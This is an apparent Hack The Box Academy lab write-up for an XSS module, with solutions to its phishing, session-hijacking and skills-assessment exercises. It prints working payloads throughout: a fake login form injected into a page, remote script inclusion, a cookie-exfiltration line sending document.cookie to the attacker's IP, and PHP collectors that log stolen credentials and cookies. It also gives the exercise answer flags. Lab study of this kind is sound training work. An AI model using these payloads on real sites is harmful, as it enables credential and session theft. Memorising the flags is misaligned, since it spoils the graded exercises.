


# [Cross-Site Scripting (XSS)](https://academy.hackthebox.com/module/details/103)

## Exercise - Phishing

### Questions

#### Question #01

**Question**

Try to find a working XSS payload for the image URL form found at `/phishing` in the above server, and then use what you learned in this section to prepare a malicious URL that injects a malicious login form. Then visit `/phishing/send.php` to send the URL to the victim, and they will log into the malicious login form. If you did everything correctly, you should receive the victim's login credentials, which you can use to login to `/phishing/login.php` and obtain the flag.


```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[/tmp/tmpserver]
└──╼ [★]$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.8  netmask 255.255.254.0  destination 10.10.15.8

[SNIP]
```

```javascript
document.write('<h3>Please login to continue</h3><form action=http://10.10.15.8:8080><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form> <!-- 
```


```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[~]
└──╼ [★]$ mkdir /tmp/tmpserver

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[~]
└──╼ [★]$ cd /tmp/tmpserver

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[~]
└──╼ [★]$ vim index.php

<?php
if (isset($_GET['username']) && isset($_GET['password'])) {
    $file = fopen("creds.txt", "a+");
    fputs($file, "Username: {$_GET['username']} | Password: {$_GET['password']}\n");
    header("Location: http://10.129.255.155/phishing/index.php");
    fclose($file);
    exit();
}
?>
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[/tmp/tmpserver]
└──╼ [★]$ sudo php -S 0.0.0.0:8080
[Fri May 30 03:45:14 2025] PHP 8.2.26 Development Server (http://0.0.0.0:8080) started

[CONTINUE]
```


```
[CONTINUE]

[Fri May 30 04:07:03 2025] 10.129.255.155:41440 Accepted
[Fri May 30 04:07:03 2025] 10.129.255.155:41440 [302]: GET /?username=admin&password=p1zd0nt57341myp455&submit=Login
[Fri May 30 04:07:03 2025] 10.129.255.155:41440 Closing

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[/tmp/tmpserver]
└──╼ [★]$ cat creds.txt 

Username: admin | Password: p1zd0nt57341myp455
```

**Answer**

```
HTB{r3f13c73d_cr3d5_84ck_2_m3}
```

## Exercise - Session Hijacking

### Questions

#### Question #02

**Question**

Try to repeat what you learned in this section to identify the vulnerable input field and find a working XSS payload, and then use the 'Session Hijacking' scripts to grab the admin's cookie and use it in `login.php` to get the flag.




```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[/tmp/tmpserver]
└──╼ [★]$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.8  netmask 255.255.254.0  destination 10.10.15.8

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[~]
└──╼ [★]$ mkdir /tmp/tmpserver

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[~]
└──╼ [★]$ cd /tmp/tmpserver

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-45hkc2kudt]─[/tmp/tmpserver]
└──╼ [★]$ sudo php -S 0.0.0.0:8000

[Fri May 30 05:12:51 2025] PHP 8.2.26 Development Server (http://0.0.0.0:8000) started

[CONTINUE]
```

```javascript
"><script src=http://10.10.15.8:8000/fullname>

"><script src=http://10.10.15.8:8000/username>

"><script src=http://10.10.15.8:8000/imgurl>
```




```
[CONTINUE]

[Fri May 30 05:40:16 2025] 10.129.255.155:33436 Accepted
[Fri May 30 05:40:16 2025] 10.129.255.155:33436 [200]: GET /imgurl
[Fri May 30 05:40:16 2025] 10.129.255.155:33436 Closing
^C
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-45hkc2kudt]─[/tmp/tmpserver]
└──╼ [★]$ vim script.js 

new Image().src='http://10.10.15.8:8000/index.php?c='+document.cookie

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[~]
└──╼ [★]$ vim index.php

<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-45hkc2kudt]─[/tmp/tmpserver]
└──╼ [★]$ sudo php -S 0.0.0.0:8000

[Fri May 30 05:45:55 2025] PHP 8.2.26 Development Server (http://0.0.0.0:8000) started

[CONTINUE]
```

```javascript
"><script src=http://10.10.15.8:8000/script.js></script>
```


```
[CONTINUE]

[Fri May 30 06:43:35 2025] 10.129.255.155:46606 Accepted
[Fri May 30 06:43:35 2025] 10.129.255.155:46606 [200]: GET /script.js
[Fri May 30 06:43:35 2025] 10.129.255.155:46606 Closing
[Fri May 30 06:43:35 2025] 10.129.255.155:46608 Accepted
[Fri May 30 06:43:35 2025] 10.129.255.155:46608 [200]: GET /index.php?c=cookie=c00k1355h0u1d8353cu23d
[Fri May 30 06:43:35 2025] 10.129.255.155:46608 Closing
^C

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-e8y0wifeld]─[/tmp/tmpserver]
└──╼ [★]$ cat cookies.txt 

Victim IP: 10.129.255.155 | Cookie: cookie=c00k1355h0u1d8353cu23d
```

**Answer**

```
HTB{4lw4y5_53cur3_y0ur_c00k135}
```

---

## Skills Assessment

We are performing a Web Application Penetration Testing task for a company that hired you, which just released their new `Security Blog`. In our Web Application Penetration Testing plan, we reached the part where you must test the web application against Cross-Site Scripting vulnerabilities (XSS).

Start the server below, make sure you are connected to the VPN, and access the `/assessment` directory on the server using the browser.

Apply the skills you learned in this module to achieve the following:

1. Identify a user-input field that is vulnerable to an XSS vulnerability
2. Find a working XSS payload that executes JavaScript code on the target's browser
3. Using the `Session Hijacking` techniques, try to steal the victim's cookies, which should contain the flag.

### Questions

#### Question #01

**Question**

What is the value of the `flag` cookie?


```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[/tmp/tmpserver]
└──╼ [★]$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.8  netmask 255.255.254.0  destination 10.10.15.8

[SNIP]
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[~]
└──╼ [★]$ mkdir /tmp/tmpserver

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[~]
└──╼ [★]$ cd /tmp/tmpserver

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-e8y0wifeld]─[/tmp/tmpserver]
└──╼ [★]$ sudo php -S 0.0.0.0:8000

[Fri May 30 06:52:31 2025] PHP 8.2.26 Development Server (http://0.0.0.0:8000) started

[CONTINUE]
```

```javascript
"><script src=http://10.10.15.8:8000/comment>

"><script src=http://10.10.15.8:8000/author>

"><script src=http://10.10.15.8:8000/url>
```

```
[CONTINUE]

[Fri May 30 06:53:41 2025] 10.129.255.155:46978 Accepted
[Fri May 30 06:53:41 2025] 10.129.255.155:46976 Accepted
[Fri May 30 06:53:41 2025] 10.129.255.155:46978 [200]: GET /url
^C
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-45hkc2kudt]─[/tmp/tmpserver]
└──╼ [★]$ vim script.js 

new Image().src='http://10.10.15.8:8000/index.php?c='+document.cookie

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-iprwdllnsl]─[~]
└──╼ [★]$ vim index.php

<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-45hkc2kudt]─[/tmp/tmpserver]
└──╼ [★]$ sudo php -S 0.0.0.0:8000

[Fri May 30 05:45:55 2025] PHP 8.2.26 Development Server (http://0.0.0.0:8000) started

[CONTINUE]
```

```javascript
"><script src=http://10.10.15.8:8000/script.js></script>
```


```
[CONTINUE]

[Fri May 30 06:57:50 2025] 10.129.255.155:47066 Accepted
[Fri May 30 06:57:50 2025] 10.129.255.155:47066 [200]: GET /script.js
[Fri May 30 06:57:50 2025] 10.129.255.155:47066 Closing
[Fri May 30 06:57:50 2025] 10.129.255.155:47068 Accepted
[Fri May 30 06:57:50 2025] 10.129.255.155:47068 [200]: GET /index.php?c=wordpress_test_cookie=WP%20Cookie%20check;%20wp-settings-time-2=1748606371;%20flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
^C

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-e8y0wifeld]─[/tmp/tmpserver]
└──╼ [★]$ cat cookies.txt 

Victim IP: 10.129.255.155 | Cookie: wordpress_test_cookie=WP Cookie check
Victim IP: 10.129.255.155 | Cookie:  wp-settings-time-2=1748606371
Victim IP: 10.129.255.155 | Cookie:  flag=HTB{cr055_5173_5cr1p71n6_n1nj4}
```

**Answer**

```
HTB{cr055_5173_5cr1p71n6_n1nj4}
```

---
---
